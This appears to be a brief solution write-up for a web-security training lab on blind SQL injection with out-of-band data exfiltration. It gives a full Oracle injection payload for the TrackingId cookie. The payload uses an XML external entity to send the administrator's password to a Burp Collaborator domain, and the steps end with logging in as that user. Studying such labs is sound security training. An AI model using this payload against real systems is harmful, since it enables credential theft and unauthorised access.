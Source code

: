 # Lab: Blind SQL injection with out-of-band data exfiltration

Open burp collaborator and copy the payload.

Intercept the home page request and replace the TrackingId as follows:
`TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.<collaborator-id>.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--`

Check the collaborator for interactions and find the administrator password in the subdomain of the interaction.

Login as the compromised user to complete the lab.